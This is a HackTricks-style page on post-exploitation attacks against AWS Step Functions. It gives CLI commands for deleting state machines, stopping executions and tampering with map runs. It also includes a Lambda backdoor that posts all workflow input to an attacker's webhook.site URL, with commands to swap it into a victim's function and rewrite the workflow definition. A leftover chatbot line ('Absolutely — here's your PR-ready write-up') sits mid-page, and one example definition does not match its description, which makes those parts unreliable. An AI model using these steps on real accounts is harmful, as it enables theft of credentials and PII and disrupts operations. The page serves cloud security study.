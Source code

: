 # AWS - Step Functions Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Step Functions

For more information about this AWS service, check:

{{#ref}}
../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

This permission allows to **reveal secret data inside an execution**. For it, it's needed to set Inspection level to TRACE and the revealSecrets parameter to true.

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

An attacker with these permissions would be able to permanently delete state machines, their versions, and aliases. This can disrupt critical workflows, result in data loss, and require significant time to recover and restore the affected state machines. In addition, it would allow an attacker to cover the tracks used, disrupt forensic investigations, and potentially cripple operations by removing essential automation processes and state configurations.

> [!NOTE]
>
> - Deleting a state machine you also delete all its associated versions and aliases.
> - Deleting a state machine alias you do not delete the state machine versions referecing this alias.
> - It is not possible to delete a state machine version currently referenced by one o more aliases.

```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```

- **Potential Impact**: Disruption of critical workflows, data loss, and operational downtime.

### `states:UpdateMapRun`

An attacker with this permission would be able to manipulate the Map Run failure configuration and parallel setting, being able to increase or decrease the maximum number of child workflow executions allowed, affecting directly and performance of the service. In addition, an attacker could tamper with the tolerated failure percentage and count, being able to decrease this value to 0 so every time an item fails, the whole map run would fail, affecting directly to the state machine execution and potentially disrupting critical workflows.

```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```

- **Potential Impact**: Performance degradation, and disruption of critical workflows.

### `states:StopExecution`

An attacker with this permission could be able to stop the execution of any state machine, disrupting ongoing workflows and processes. This could lead to incomplete transactions, halted business operations, and potential data corruption.

> [!WARNING]
> This action is not supported by **express state machines**.

```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```

- **Potential Impact**: Disruption of ongoing workflows, operational downtime, and potential data corruption.

### `states:TagResource`, `states:UntagResource`

An attacker could add, modify, or remove tags from Step Functions resources, disrupting your organization's cost allocation, resource tracking, and access control policies based on tags.

```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```

**Potential Impact**: Disruption of cost allocation, resource tracking, and tag-based access control policies.

Absolutely — here's your **PR-ready write-up** in the requested format, aligned with the `HackTricks` style you've been following.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

An attacker who compromises a user or role with the following permissions:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowUpdateStateMachine",
      "Effect": "Allow",
      "Action": "states:UpdateStateMachine",
      "Resource": "*"
    },
    {
      "Sid": "AllowUpdateFunctionCode",
      "Effect": "Allow",
      "Action": "lambda:UpdateFunctionCode",
      "Resource": "*"
    }
  ]
}
```

...can conduct a **high-impact and stealthy post-exploitation attack** by combining Lambda backdooring with Step Function logic manipulation.

This scenario assumes that the victim uses **AWS Step Functions to orchestrate workflows that process sensitive input**, such as credentials, tokens, or PII.

Example victim invocation:

```bash
aws stepfunctions start-execution \
  --state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
  --input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```

If the Step Function is configured to invoke a Lambda like `LegitBusinessLogic`, the attacker can proceed with **two stealthy attack variants**:

---

####  Updated the lambda function

The attacker modifies the code of the Lambda function already used by the Step Function (`LegitBusinessLogic`) to silently exfiltrate input data.

```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
    requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
    return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
  --function-name LegitBusinessLogic \
  --zip-file fileb://function.zip -profile attacker
```

---

#### Add a Malicious State to the Step Function

Alternatively, the attacker can inject an **exfiltration state** at the beginning of the workflow by updating the Step Function definition.

```malicious_state_definition.json
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "OriginalState",
  "States": {
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
      "End": true
    }
  }
}

```

```bash
aws stepfunctions update-state-machine \
  --state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
  --definition file://malicious_state_definition.json --profile attacker
```

The attacker can even more stealthy to update the state definition to something like this 
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "ExfiltrateSecrets",
  "States": {
    "ExfiltrateSecrets": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
      "InputPath": "$",
      "ResultPath": "$.exfil",
      "Next": "OriginalState"
    },
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
      "End": true
    }
  }  
}
 where the victim won't realize the different 

---

### Victim Setup (Context for Exploit)

- A Step Function (`LegitStateMachine`) is used to process sensitive user input.
- It calls one or more Lambda functions such as `LegitBusinessLogic`.

---

**Potential Impact**:  
- Silent exfiltration of sensitive data including secrets, credentials, API keys, and PII.
- No visible errors or failures in workflow execution.
- Difficult to detect without auditing Lambda code or execution traces.
- Enables long-term persistence if backdoor remains in code or ASL logic.


{{#include ../../../banners/hacktricks-training.md}}





